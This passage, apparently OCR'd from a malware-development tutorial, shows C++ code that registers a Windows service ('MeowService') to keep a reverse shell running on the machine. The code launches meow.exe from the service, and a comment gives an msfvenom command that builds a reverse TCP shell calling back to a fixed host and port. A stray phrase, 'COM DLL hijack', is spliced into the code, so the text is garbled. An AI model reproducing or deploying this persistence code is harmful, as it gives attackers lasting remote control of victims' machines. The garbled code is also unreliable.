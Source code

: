 ```cpp
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    default:
      break;COM DLL hijack
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

I have only implemented and supported the `SERVICE_CONTROL_STOP` and `SERVICE_CONTROL_SHUTDOWN` requests. You can handle other requests such as `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` and others.

Also, create function with *evil* logic:

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\2022-05-09-malware-pers-4\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

As I wrote earlier, just create our reverse shell process (`meow.exe`):    
